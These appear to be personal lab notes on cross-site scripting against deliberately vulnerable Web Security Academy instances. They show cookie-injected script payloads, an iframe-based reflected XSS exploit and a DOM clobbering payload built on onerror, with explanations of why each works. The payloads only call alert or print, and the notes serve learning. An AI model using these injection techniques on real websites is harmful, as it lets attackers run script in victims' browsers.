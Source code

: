 GET / HTTP/1.1
Host: 0abd003004e35b28c0b6e09400ae0077.web-security-academy.net
Cookie: session=EmjrI07hbqjMkXYXhmzJEXG1CrDNPKvG; lastViewedProduct=asd'><script>alert('asd')</script>

<header class="navigation-header">
    <section class="top-links">
        <a href=/>Home</a><p>|</p>
        <a href='asd'><script>alert('asd')</script>'>Last viewed product</a><p>|</p>
    </section>
</header>

GET / HTTP/1.1
Host: 0abd003004e35b28c0b6e09400ae0077.web-security-academy.net
Cookie: session=EmjrI07hbqjMkXYXhmzJEXG1CrDNPKvG; lastViewedProduct=https://0abd003004e35b28c0b6e09400ae0077.web-security-academy.net/product?productId=3'><script>alert(1)</script>


<script>
    console.log("preparing payload")
</script>

<iframe 
  id="hehe"
  name="hehe"
  src="https://0abd003004e35b28c0b6e09400ae0077.web-security-academy.net/product?productId=3#'><script>print()</script>"
>
</iframe>

<script>
    setTimeout(() => { document.getElementById('hehe').src = "https://0abd003004e35b28c0b6e09400ae0077.web-security-academy.net/product?productId=3" }, 1000);
</script>

https://stackoverflow.com/questions/86428/what-s-the-best-way-to-reload-refresh-an-iframe

### Lab: Exploiting DOM clobbering to enable XSS - Only works in Chrome

https://www.w3schools.com/html/html_entities.asp

https://sendgrid.com/blog/embedding-images-emails-facts/

https://packetstormsecurity.com/files/166389/OX-App-Suite-7.10.5-Cross-Site-Scripting.html

https://github.com/payloadbox/xss-payload-list

```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:canbeanythinginbetweenherebutmusthavecidcollonbeforeittotriggeronerror&quot;onerror=alert(1)//everythingaftermeincludingmeisignored">
```

- Using `cid:` forces the created `<img>` tag's `src` property to start with `cid:` which is easier to corrupt and trigger the onerror function that we will add

- No double quote infront of `alert(1)` hence the javascript will auto add double quotes which mangles with the `alert()` function (i.e. `onerror="alert(1)""`). To fix this add `//` causes the `"` to be ignored and allows the payload to work
